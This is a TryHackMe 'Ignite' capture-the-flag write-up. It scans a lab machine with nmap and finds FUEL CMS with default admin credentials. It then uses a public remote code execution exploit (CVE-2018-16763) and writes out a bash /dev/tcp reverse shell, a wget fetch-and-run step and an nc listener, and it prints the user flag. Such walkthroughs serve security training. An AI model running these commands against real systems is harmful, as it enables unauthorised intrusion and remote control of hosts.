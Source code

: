# Ignite

<div align="left">

<figure><img src=".gitbook/assets/676cb3273c613c9ba00688162efc0979.png" alt="" width="128"><figcaption><p>tryhackme.com - © TryHackMe</p></figcaption></figure>

</div>

🔗 [Ignite](https://tryhackme.com/room/ignite)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.166.221`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

```bash
su
echo "10.10.166.221 ignite.thm" >> /etc/hosts

mkdir thm/ignite.thm  
cd thm/ignite.thm

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 ignite.thm
PING ignite.thm (10.10.166.221) 56(84) bytes of data.
64 bytes from ignite.thm (10.10.166.221): icmp_seq=1 ttl=63 time=61.5 ms
64 bytes from ignite.thm (10.10.166.221): icmp_seq=2 ttl=63 time=62.8 ms
64 bytes from ignite.thm (10.10.166.221): icmp_seq=3 ttl=63 time=63.7 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix system (probably Linux), while Windows systems usually have a TTL of 128 secs.

#### 2.1 - Find open ports on the machine

```bash
nmap --open -n -Pn -vvv -T4 ignite.thm
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-02 11:12 EDT
Initiating SYN Stealth Scan at 11:12
Scanning ignite.thm (10.10.166.221) [1000 ports]
Discovered open port 80/tcp on 10.10.166.221
Completed SYN Stealth Scan at 11:12, 0.99s elapsed (1000 total ports)
Nmap scan report for ignite.thm (10.10.166.221)
Host is up, received user-set (0.068s latency).
Scanned at 2023-07-02 11:12:22 EDT for 1s
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.24 seconds
           Raw packets sent: 1000 (44.000KB) | Rcvd: 1000 (40.004KB)
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

```bash
map -p80 -sCV -T4 ignite.thm -oN port_scan
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/fuel/
```

It looks like there are only one open port on the machine: HTTP.

#### Task 3 - What is the user flag? 

<figure><img src=".gitbook/assets/Schermata del 2023-07-02 17-19-30.png" alt=""><figcaption><p>http://ignite.thm:80</p></figcaption></figure>

We can search exploit with searchsploit:

```bash
searchsploit fuel cms 1.4 
------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                  |  Path
------------------------------------------------------------------------------------------------ ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                                      | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                      | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                                      | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                                     | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                            | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                | php/webapps/48778.txt
------------------------------------------------------------------------------------------------ ---------------------------------
```

Very good, there're many exploits for this CMS.

Exploring page we found a good info:

<figure><img src=".gitbook/assets/Schermata del 2023-07-02 17-23-40.png" alt=""><figcaption></figcaption></figure>

To access the FUEL admin, go to:\
[http://ignite.thm/fuel](http://ignite.thm/fuel)\
User name: **admin**\
Password: **admin** (you can and should change this password and admin user information after logging in).

<div align="left">

<figure><img src=".gitbook/assets/Schermata del 2023-07-02 17-25-17 (1).png" alt=""><figcaption></figcaption></figure>

</div>

<figure><img src=".gitbook/assets/Schermata del 2023-07-02 17-26-30.png" alt=""><figcaption></figcaption></figure>

Now, we can try to exploit using a RCE exploit, first we download script from searchsploit db:

```bash
searchsploit -m 50477.py                             
  Exploit: Fuel CMS 1.4.1 - Remote Code Execution (3)
      URL: https://www.exploit-db.com/exploits/50477
     Path: /usr/share/exploitdb/exploits/php/webapps/50477.py
    Codes: CVE-2018-16763
 Verified: False
File Type: Python script, ASCII text executable
cp: overwrite '/home/kali/50477.py'? 
Copied to: /home/kali/50477.py
```

After this, we can launch exploit:

```bash
python 50477.py -u http://ignite.thm
```

<div align="left">

<figure><img src=".gitbook/assets/Schermata del 2023-07-02 19-39-11.png" alt=""><figcaption></figcaption></figure>

</div>

We need to do a reverse shell, we start to:

Retrieve our ip address:

```bash
ip -br -c a
```

and create a shell file with nano:

```bash
nano shell.sh
```

Insert this line for a bash reverse shell:

```bash
/bin/bash -i >& /dev/tcp/10.0.2.15/3333 0>&1
```

Setup a Python web server and a `nc` listener on 2 different tabs:

1st tab:

```bash
python -m http.server
```

2nd tab:

```bash
nc -nvlp 3333
```

Now, we can return in the exploited Fuel CMS tab, and do this commands:

```bash
wget http://10.0.2.15:8000/shell.sh -O shell.sh
bash shell.sh
```

Reverse shell received in the `nc` terminal:

```bash
/usr/bin/script -qc /bin/bash /dev/null
cd /home/www-data
ls
cat flag.txt
```

<details>

<summary>🚩 Flag 1 (user.txt)</summary>

`6470e394cbf6dab6a91682cc8585059b`

</details>

#### Task 4 - What is the root flag? 

<details>

<summary>🚩 Flag 2 (root.txt)</summary>



</details>
